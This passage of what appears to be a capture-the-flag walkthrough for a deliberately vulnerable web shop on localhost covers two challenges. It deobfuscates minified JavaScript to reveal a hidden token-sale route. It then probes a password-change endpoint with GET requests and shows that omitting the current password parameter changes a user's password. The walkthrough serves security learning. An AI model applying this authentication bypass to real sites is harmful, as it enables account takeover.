     ![Code block returning the Tokensale path](media/blog4/minified_js-tokensale_path-block.png)
    
10. Copying that inner code block and executing that in your console will still yield an error!
11. You need to append it to a string to make it work, which will **finally** yield the path `/tokensale-ico-ea`.
12. Navigate to [http://localhost:3000/#/tokensale-ico-ea](http://localhost:3000/#/tokensale-ico-ea) to solve this challenge.
    
    ```jsx
    "" + function() {
                    for (var l = [], n = 0; n < arguments.length; n++)
                        l[n] = arguments[n];
                    var e = Array.prototype.slice.call(l)
                      , t = e.shift();
                    return e.reverse().map(function(l, n) {
                        return String.fromCharCode(l - t - 45 - n)
                    }).join("")
                }(25, 184, 174, 179, 182, 186) + 36669..toString(36).toLowerCase() + function() {
                    for (var l = [], n = 0; n < arguments.length; n++)
                        l[n] = arguments[n];
                    var e = Array.prototype.slice.call(arguments)
                      , t = e.shift();
                    return e.reverse().map(function(l, n) {
                        return String.fromCharCode(l - t - 24 - n)
                    }).join("")
                }(13, 144, 87, 152, 139, 144, 83, 138) + 10..toString(36).toLowerCase()
    ```
    

### **Change Bender’s password into slurmCl4ssic without using SQL Injection or Forgot Password**

1. Log in as anyone.
2. Inspecting the backend HTTP calls of the *Password Change* form reveals that these happen via `HTTP GET` and submits current and new password in clear text.
3. Probe the responses of `/rest/user/change-password` on various inputs:
    - [http://localhost:3000/rest/user/change-password?current=A](http://localhost:3000/rest/user/change-password?current=A) yields a `401` error saying `Password cannot be empty.`
    - [http://localhost:3000/rest/user/change-password?current=A&new=B](http://localhost:3000/rest/user/change-password?current=A&new=B) yields a `401` error saying `New and repeated password do not match.`
    - [http://localhost:3000/rest/user/change-password?current=A&new=B&repeat=C](http://localhost:3000/rest/user/change-password?current=A&new=B&repeat=C) also says `New and repeated password do not match.`
    - [http://localhost:3000/rest/user/change-password?current=A&new=B&repeat=B](http://localhost:3000/rest/user/change-password?current=A&new=B&repeat=B) says `Current password is not correct.`
    - [http://localhost:3000/rest/user/change-password?new=B&repeat=B](http://localhost:3000/rest/user/change-password?new=B&repeat=B) yields a `200` success returning the updated user as JSON!